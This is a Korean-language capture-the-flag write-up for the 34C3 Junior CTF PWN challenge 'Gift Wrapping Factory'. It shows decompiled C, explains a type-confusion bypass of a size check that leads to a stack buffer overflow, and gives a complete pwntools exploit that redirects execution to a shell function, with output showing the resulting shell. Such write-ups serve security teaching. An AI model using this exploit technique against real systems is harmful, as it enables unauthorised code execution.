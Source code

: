 # [2017_34C3 Junior CTF] \[PWN] Gift Wrapping Factory

## Key words

* stack based buffer overflow
* type confusion

## Description

```
Wrapping gifts is now even more fun! Gift Wrapping Factory 2.0:

nc 35.198.185.193 1341
```

## Solution

```c
int spawn_shell()
{
  return system("/bin/bash");
}
```

`giftwrapper.so` 열어보면 `spawn_shell` 함수가 있습니다. 딱 봐도 쉬운 문제라는 생각이 들죠.

```c
int wrap()
{
  unsigned __int16 v0; // bp
  int v1; // eax
  unsigned int v2; // ebp
  int v3; // ebx
  int v4; // eax
  char v6[96]; // [rsp+0h] [rbp-88h]
  int v7; // [rsp+60h] [rbp-28h]
  __int64 buf; // [rsp+65h] [rbp-23h]
  __int16 v9; // [rsp+6Dh] [rbp-1Bh]
  char v10; // [rsp+6Fh] [rbp-19h]

  printf("What is the size of the gift you want to wrap?\n |> ");
  buf = 0LL;
  v9 = 0;
  v10 = 0;
  if ( read(1, &buf, 0xAuLL) <= 0 )
    exit(1);
  v0 = strtol((const char *)&buf, 0LL, 0);
  if ( (signed __int16)v0 > 0x63 )
    return puts("Sorry! This gift is too large.");
  printf("Please send me your gift.\n |> ", 0LL);
  memset(v6, 0, sizeof(v6));
  v7 = 0;
  v1 = (unsigned __int64)read(1, v6, v0 + 1LL) - 1;
  if ( v6[v1] == 10 )
    v6[v1] = 0;
  puts(
    "         _   _       \n"
    "        ((\\o/))      \n"
    " .-------//^\\\\------.\n"
    " |      /`   `\\     |\n"
    " |                  |");
  if ( (signed __int16)v0 > 0 )
  {
    v2 = (((signed __int16)v0 - 1) & 0xFFFFFFF0) + 16;
    v3 = 0;
    do
    {
      v4 = printf(" | %.16s", &v6[v3]);
      printf("%*c |\n", (unsigned int)(19 - v4), 32LL);
      v3 += 16;
    }
    while ( v3 != v2 );
  }
  puts(" |                  |\n  ------------------ \n");
  return puts("Wow! This looks so beautiful");
}
```

`wrap` 함수 내용을 살펴보면 read 함수를 사용할 때 스택 버퍼오버플로우가 발생할 것 같은 냄새가 납니다. `v1 = (unsigned __int64)read(1, v6, v0 + 1LL) - 1;` 부분에서 `v0` 만큼 버퍼를 읽어오는 것을 확인할 수 있습니다. 그럼 `v0`을 조작하면 되겠습니다.

`v0`의 값은 99 이하의 값을 갖도록 필터링이 걸려있습니다. 하지만  `strtol` 함수 다음 줄의 비교하는 부분에서 타입 컨퓨전 취약점이 발생합니다.  `v0`은 `unsigned int`인데 정작 비교할 때는 `signed int`형으로 캐스팅하여 작업합니다. 간단하게 음수 값을 넣음으로서 필터링을 우회할 수 있습니다.

## Exploit

```python
from pwn import *

r = remote("0", 12345)
raw_input()
print r.recv()
r.sendline("modinfo")
print r.recvuntil("Base address: 0x")
code_base = int(r.recvline()[:-1], 16)
log.info("code base 0x%x" % code_base)

print r.recv()
r.sendline("wrap")
print r.recv()
r.send("-1")
payload = "a" * 136
payload += p64(code_base + 0x9D3)
r.send(payload)
r.interactive()
```

## 실행 결과

```
$ python ex.py 
[+] Opening connection to 0 on port 12345: Done

*
* Gift Wrapping Factory
*
Welcome to the new gift wrapping service!
Type "help" for help :)
> 
************************************
Information about the loaded module:
Name: Gift Wrapping Factory
Base address: 0x
[*] code base 0x7f21b38d8000
************************************
> 
What is the size of the gift you want to wrap?
 |> 
[*] Switching to interactive mode
Please send me your gift.
 |>          _   _       
        ((\o/))      
 .-------//^\\------.
 |      /`   `\     |
 |                  |
 |                  |
  ------------------ 

Wow! This looks so beautiful
$ id
uid=1001(challenge) gid=1001(challenge) groups=1001(challenge)
```

